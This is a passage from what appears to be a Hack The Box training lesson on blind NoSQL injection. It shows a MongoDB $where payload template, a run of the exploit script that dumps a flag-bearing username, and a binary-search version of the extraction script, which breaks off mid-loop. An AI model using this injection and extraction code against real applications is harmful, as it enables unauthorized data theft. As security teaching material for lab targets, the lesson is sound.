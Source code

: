 ```python
print("Requests: %d" % num_req)

```

The specific query we are using is templated like `this.username.startsWith("HTB{") && this.username.charCodeAt(i) == c`. The first part ensures we are targeting the username we want (assumes there is only one username that starts with `'HTB{'`), and the second part checks if the ASCII value of the character in the string at index `i` equals whatever value we are on in the loop ( `c`).

At this point, we can run the script, and the username should be dumped successfully.

```shell
time python3 mangoonline-exploit.py

---- Regular search ----
Flag: HTB{...SNIP...}
Requests: 1678

real    2m40.351s
user    0m2.626s
sys     0m0.407s

```

Note: Due to the large number of requests this script requires, it may fail when testing it against the live target. The optimized version below should not have any issues.

* * *

## Optimizing the Script

Although this script works, it is very inefficient. In the case of dumping a username that is only a couple dozen characters long, this isn't a big deal, but if we were trying to exfiltrate larger amounts of data, it could matter.

If you are familiar with popular searching algorithms, you may know of the [binary search](https://www.geeksforgeeks.org/binary-search/) algorithm. The basic idea of a binary search is that we split the search area in half repeatedly until we find whatever it is we are looking for. In this case, we are looking for the `ASCII value of the character at index 'i'`, and the search area is `32-127`.

The binary search algorithm runs in `O(log_2(N))` time in both the worst case, which is just a fancy way of saying it takes `log_2(N)` iterations to complete in the worst case. In this case, that means if we were to implement a binary search, it would take `7 iterations` to find our target value in the worst case, which is much better than the worst case of `95 iterations`, which we currently have. Simply put, this algorithm will save a lot of time and reduce the number of requests. If you are interested in understanding the technicalities, I recommend checking out this [article on time complexity](https://www.geeksforgeeks.org/understanding-time-complexity-simple-examples/).

Although the algorithm may sound hard, it is straightforward to implement - only taking a few more lines of code than our original search:

```python
# Dump the username (binary search)
num_req = 0 # Reset the request counter
username = "HTB{" # Known beginning of username
i = 4 # Skip the first 4 characters (HTB{)
while username[-1] != "}": # Repeat until we meet '}' aka end of username
    low = 32 # Set low value of search area (' ')
    high = 127 # Set high value of search area ('~')
    mid = 0
    while low <= high:
        mid = (high + low) // 2 # Caluclate the midpoint of the search area
        if oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) > %d' % (i, mid)):
            low = mid + 1 # If ASCII value of username at index 'i' < midpoint, increase the lower boundary and repeat
```